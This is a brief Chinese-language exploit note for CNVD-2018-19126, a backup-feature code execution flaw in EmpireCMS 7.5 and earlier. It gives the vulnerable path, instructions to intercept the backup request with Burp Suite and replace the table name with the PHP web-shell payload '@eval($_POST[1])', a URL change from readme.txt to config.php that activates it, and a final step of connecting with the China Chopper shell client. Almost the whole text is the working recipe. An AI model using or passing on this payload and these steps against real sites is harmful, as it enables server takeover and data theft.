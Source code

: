 ### CNVD-2018-19126 EmpireCMS后台任意代码执行可GetShell  <=7.5

帝国CMS
[漏洞位置]
/e/admin/admin/ebak/phome.php
#### [系统]-[系统设置]-[备份与恢复数据]-[备份数据]
[漏洞利用]
### 在[系统]-[系统设置]-[备份与恢复数据]-[备份数据]，选择任意数据表。

使用Burpsuit截取数据包。将表名修改为一句话***。

#字段
tablename[]=xxxxxxxx
#修改为：
### tablename[]=@eval($_POST[1])
在[系统]-[系统设置]-[备份与恢复数据]-[管理备份目录]处，点击查看备份说明。

点击[查看备份说明]，将URL结尾处的readme.txt修改为config.php

使用菜刀连接。
